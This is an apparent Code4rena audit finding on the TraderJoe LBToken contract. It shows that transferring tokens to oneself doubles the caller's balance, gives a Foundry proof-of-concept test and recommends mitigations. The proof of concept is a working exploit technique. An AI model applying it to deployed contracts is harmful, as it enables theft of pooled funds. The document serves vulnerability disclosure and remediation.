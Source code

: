 ## Tags

- bug
- 3 (High Risk)
- primary issue
- sponsor confirmed
- selected for report
- H-01

# [Transfering funds to yourself increases your balance](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/299) 

# Lines of code

https://github.com/code-423n4/2022-10-traderjoe/blob/79f25d48b907f9d0379dd803fc2abc9c5f57db93/src/LBToken.sol#L182
https://github.com/code-423n4/2022-10-traderjoe/blob/79f25d48b907f9d0379dd803fc2abc9c5f57db93/src/LBToken.sol#L187
https://github.com/code-423n4/2022-10-traderjoe/blob/79f25d48b907f9d0379dd803fc2abc9c5f57db93/src/LBToken.sol#L189-L192


# Vulnerability details

## Impact
Using temporary variables to update balances is a dangerous construction that has led to several hacks in the past. Here, we can see that `_toBalance` can overwrite `_fromBalance`:

```solidity
File: LBToken.sol
176:     function _transfer(
177:         address _from,
178:         address _to,
179:         uint256 _id,
180:         uint256 _amount
181:     ) internal virtual {
182:         uint256 _fromBalance = _balances[_id][_from];
...
187:         uint256 _toBalance = _balances[_id][_to];
188: 
189:         unchecked {
190:             _balances[_id][_from] = _fromBalance - _amount;
191:             _balances[_id][_to] = _toBalance + _amount; //@audit : if _from == _to : rekt
192:         }
..
196:     }
```

Furthermore, the `safeTransferFrom` function has the `checkApproval` modifier which passes without any limit if `_owner == _spender` :

```solidity
File: LBToken.sol
32:     modifier checkApproval(address _from, address _spender) {
33:         if (!_isApprovedForAll(_from, _spender)) revert LBToken__SpenderNotApproved(_from, _spender);
34:         _;
35:     }
...
131:     function safeTransferFrom(
...
136:     ) public virtual override checkAddresses(_from, _to) checkApproval(_from, msg.sender) {
...
269:     function _isApprovedForAll(address _owner, address _spender) internal view virtual returns (bool) {
270:         return _owner == _spender || _spenderApprovals[_owner][_spender];
271:     }
```

## Proof of Concept
Add the following test to `LBToken.t.sol` (run it with `forge test --match-path test/LBToken.t.sol --match-test testSafeTransferFromOneself -vvvv`):

```solidity
    function testSafeTransferFromOneself() public {
        uint256 amountIn = 1e18;

        (uint256[] memory _ids, , , ) = addLiquidity(amountIn, ID_ONE, 5, 0);

        uint256 initialBalance = pair.balanceOf(DEV, _ids[0]);

        assertEq(initialBalance, 333333333333333333); // using hardcoded value to ease understanding

        pair.safeTransferFrom(DEV, DEV, _ids[0], initialBalance); //transfering to oneself
        uint256 rektBalance1 = pair.balanceOf(DEV, _ids[0]); //computing new balance
        assertEq(rektBalance1, 2 * initialBalance); // the new balance is twice the initial one
        assertEq(rektBalance1, 666666666666666666); // using hardcoded value to ease understanding
    }
```

As we can see here, this test checks that transfering all your funds to yourself doubles your balance, and it's passing. This can be repeated again and again to increase your balance.

## Recommended Mitigation Steps
- Add checks to make sure that `_from != _to` because that shouldn't be useful anyway
- Prefer the following:

```solidity
File: LBToken.sol
189:         unchecked {
190:             _balances[_id][_from] -= _amount;
191:             _balances[_id][_to] += _amount;
192:         }
```